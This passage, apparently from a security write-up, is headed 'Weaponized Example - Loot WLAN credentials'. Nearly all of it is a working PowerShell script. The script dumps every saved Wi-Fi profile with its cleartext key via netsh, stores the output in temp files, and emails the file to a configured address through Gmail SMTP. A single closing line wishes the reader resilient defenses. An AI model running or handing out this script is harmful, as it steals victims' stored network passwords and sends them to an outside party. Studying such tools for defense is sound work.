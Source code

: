 
## Weaponized Example - Loot WLAN credentials

Below you find a script for retrieving all WLAN information with credentials and the arbitrary payload downloader from above. The dump will be sent to a given mail address.

```cpp
# setup variables
$GmailAccount = ''
$GmailPassWord = ''
$FromAddress = ''
$ToAddress = ''
$Subject = 'Netsh Ripper'


# set working directory
Set-Location -Path $env:tmp -PassThru

# paths and regex
$InputPath = 'C:\Windows\Temp\out.txt'
$OutputFile = 'C:\Windows\Temp\output.txt'
$NetshResult = 'C:\Windows\Temp\result.txt'
$regex = "\s:[a-zA-Z0-9]*.[a-zA-Z0-9]*.*"

# write the wlan profiles to an text file
netsh wlan show profiles | Out-File $InputPath

# parse output
Select-String -Path $InputPath -Pattern $regex -AllMatches  | select Matches  | Out-File $OutputFile
(Get-Content $OutputFile) -replace '{ : ','' -replace '}','' -replace '\  +', ''| Select-Object -Skip 3 | Set-Content $OutputFile

# look into all profile entry's
$Result = foreach ($WiFi in Get-Content $OutputFile) {
netsh wlan show profile name="$WiFi" key=clear
} 

# write output
$Result | Out-File $NetshResult

# setup the mail server and mail file
$SMTPServer = 'smtp.gmail.com'
$SMTP = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
$SMTP.EnableSsl = $true
$SMTP.Credentials = New-Object System.Net.NetworkCredential($GmailAccount,$GmailPassWord)
$Message = New-Object System.Net.Mail.MailMessage
$Message.From = $FromAddress
$Message.To.Add($ToAddress)
$Message.Subject = $Subject
$Message.IsBodyHtml = $True 
$Attachment = $NetshResult
$Attach = new-object Net.Mail.Attachment($Attachment) 
$Message.Attachments.Add($Attach)
$SMTP.Send($Message)
```

Stay vigilant, and may your cybersecurity defenses remain resilient against such potential threats.
